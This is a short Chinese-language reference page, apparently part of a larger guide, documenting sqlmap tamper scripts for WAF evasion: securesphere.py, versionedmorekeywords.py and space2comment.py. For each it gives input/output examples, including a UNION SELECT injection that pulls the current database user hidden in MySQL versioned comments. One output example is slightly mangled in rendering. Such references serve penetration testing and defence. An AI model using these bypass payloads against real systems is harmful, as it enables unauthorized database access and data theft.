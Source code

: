 
案例一: wooyun.org/bugs/wooyun-2010-074261

脚本名：securesphere.py
-------------------

* * *

作用：追加特制的字符串

```
Example: ('1 AND 1=1') "1 AND 1=1 and '0having'='0having'" 

```

Tested against: all

脚本名：versionedmorekeywords.py
----------------------------

* * *

作用：注释绕过

```
Example: 

* Input: 1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,122,114,115,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,115,114,121,58))# 

* Output: 1/*!UNION**!ALL**!SELECT**!NULL*/,/*!NULL*/,/*!CONCAT*/(/*!CHAR*/(58,122,114,115,58),/*!IFNULL*/(CAST(/*!CURRENT_USER*/()/*!AS**!CHAR*/),/*!CHAR*/(32)),/*!CHAR*/(58,115,114,121,58))# 

```

Requirement:

*   MySQL >= 5.1.13

脚本名：space2comment.py
--------------------

* * *

作用：Replaces space character (‘ ‘) with comments ‘/**/’

```
Example: 

* Input: SELECT id FROM users 

* Output: SELECT//id//FROM/**/users

```

Tested against:

*   Microsoft SQL Server 2005
    
*   MySQL 4, 5.0 and 5.5
    